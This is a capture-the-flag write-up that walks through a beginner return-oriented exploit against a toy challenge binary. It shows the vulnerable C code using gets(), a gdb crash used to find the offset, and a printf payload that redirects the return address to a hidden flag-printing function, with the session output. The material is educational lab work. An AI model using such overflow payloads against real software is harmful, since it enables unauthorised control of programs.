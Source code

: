 # know-the-ropes writeup

This is a binary exploit challenge, introducing participants to the concept of
*Return-Oriented Programming*, or ROP, for short.

In this challenge, we're given a binary file, that 'as usual' (such as in eg.
`trout`) reads some input. This time, it expects us to enter a flag. But... it
doesn't do much with it?

```c
int main_real(void) {
	char flgin[64];

	printf("Enter flag:\n");
	fflush(stdout);
	gets(flgin);

	if (memcmp(flgin, "FLG{", 4)) {
		fprintf(stderr, "Bad input: must start with 'FLG{'\n");
		return 1;
	}
	if (flgin[48] != '}') {
		fprintf(stderr, "Bad input: must end with '}'\n");
		return 1;
	}

	printf("Thanks for the flag! But did you really think I'd give it to you that easily?\n");

	return 0;
}
```

Hm, what else is there in this binary? Well, there's this interesting function:

```c
void print_the_flag(void) {
	printf("Here's your flag! %s\n", getenv("FLAG"));
	fflush(stdout);
	fprintf(stderr, "As you can see, this function is uncallable. Good luck getting the flag!\n");
}
```

It prints the flag we are after, but, nothing seems to call it.

So how do we exploit this binary?

Well, `main_real()` has the typical `gets()` buffer overflow vulnerability. But
there isn't really that much data to overflow, and we can't really use a
[shellcode](https://en.wikipedia.org/wiki/Shellcode) exploit (where we load
instructions on the stack, and overwrite the return address to that code)
either, as the stack is marked as no-execute...

However, we can still overwrite the return address to point to the
`print_the_flag()` function! To do that, let's try feeding it the following
test string, using `gdb`:

```
FLG{BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM}NNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ[[[[\\\\]]]]^^^^____````
```

```
$ FLAG="FLG{0123456789abcdef0123456789abcdef0123456789ab}" gdb -ex r ./challenge.elf
[...]
Starting program: ./challenge.elf
Enter flag:
FLG{BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM}NNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ[[[[\\\\]]]]^^^^____````
Bad input: must end with '}'

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()
```

Aha, it has crashed! It tried to return to `0x54545454`, which corresponds to
the `TTTT` part of our input!

Ghidra tells us `print_the_flag()` lives at address `0x48449200`, so let's try
that:

```
$ printf 'FLG{BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM}NNNOOOOPPPPQQQQRRRRSSSS\x00\x92\x44\x48UUUUVVVVWWWWXXXXYYYYZZZZ[[[[\\\\]]]]^^^^____````\n' > testinput
$ FLAG="FLG{0123456789abcdef0123456789abcdef0123456789ab}" gdb -ex 'r < testinput' ./challenge.elf
[...]
Starting program: ./challenge.elf
Enter flag:
Bad input: must end with '}'
Here's your flag! FLG{0123456789abcdef0123456789abcdef0123456789ab}
As you can see, this function is uncallable. Good luck getting the flag!

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

And it worked. `gets()` doesn't even seem to care about null bytes, which makes
our life easier, and this challenge solved.
